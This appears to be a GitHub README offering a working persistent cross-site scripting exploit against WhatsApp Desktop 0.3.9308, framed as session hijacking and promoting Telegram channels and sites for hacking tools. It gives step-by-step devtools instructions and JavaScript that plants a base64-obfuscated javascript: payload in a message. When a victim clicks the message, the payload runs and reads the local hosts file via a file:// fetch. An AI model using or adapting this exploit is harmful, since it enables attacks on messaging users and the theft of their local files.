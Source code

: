 # ![Locations](https://raw.githubusercontent.com/attakercyebr/Whatsapp-Desktop-session-hijacking-/main/1.jpg) 


##### Description:
----------------------
- # Title: WhatsApp Desktop 0.3.9308 - Persistent Cross-Site Scripting

- # Date: 2020-01-21

- # Vendor Homepage: https://www.whatsapp.com

- # Software Link: https://web.whatsapp.com/desktop/windows/release/x64/WhatsAppSetup.exe

- # Software Link: https://web.whatsapp.com/desktop/mac/files/WhatsApp.dmg

- # Version: 0.3.9308

- # Tested On: Mac OS, Windows, iPhone

##### Get a license
----------------------
- 🎁 Totally free for all channel members.


##### how to work :
----------------------
- // step 1: open WhatsApp Web and enter a conversation (Will only work on WhatsApp Web source code as compiled with version 0.3.9308)

- // step 2: open devtools and search in all files "t=e.id"

- // step 3: after prettifying, set a breakpoint at the line where "t = e.id" can be found

- // step 4: paste "https://example.com" in the text box and hit "Enter"

- // step 5: when the code stops at the breakpoint, paste the following exploit code in the console and hit "Enter"

- // step 6: press F8 in order for the execution to continue

- // result: a message should be sent to the victim that once is clicked will execute the payload above

##### CODE:
----------------------
var payload = `(async function() {
alert(navigator.userAgent);
(async function() {
// read "file:///C:/windows/system32/drivers/etc/hosts" content
const r = await fetch(atob('ZmlsZTovLy9DOi93aW5kb3dzL3N5c3RlbTMyL2RyaXZlcnMvZXRjL2hvc3Rz'));
const t = await r.text();
alert(t);
}())
}())`;
payload = `javascript:"https://example.com";eval(atob("${btoa(payload)}"))`;
e.__x_matchedText = payload;
e.__x_body = `
Innocent text
${payload}
More Innocent text
`;


#####video:
----------------------
# ![Locations](https://github.com/attakercyebr/Whatsapp-Hack/blob/main/1.mp4) 


# Visit the following channels and sites for more training and tools:
----------------------
- 🔞 https://m4nifest0.com
- 🔞 https://m4nifest0.group
- 🔞 https://m4nifest0.shop
- 🔞 https://t.me/M4nifest0

----------------------

<h2>
<p align="center">	
</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://t.me/M4nifest0">
		<img src="https://img.shields.io/badge/Telegram-%23000000.svg?&style=for-the-badge&logo=Telegram&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://twitter.com/_M4nifest0_">
		<img src="https://img.shields.io/badge/twitter-%231DA1F2.svg?&style=for-the-badge&logo=twitter&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://m4nifest0.com">
		<img src="https://img.shields.io/badge/WebSite-%234A154B.svg?&style=for-the-badge&logo=slack&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
</p>
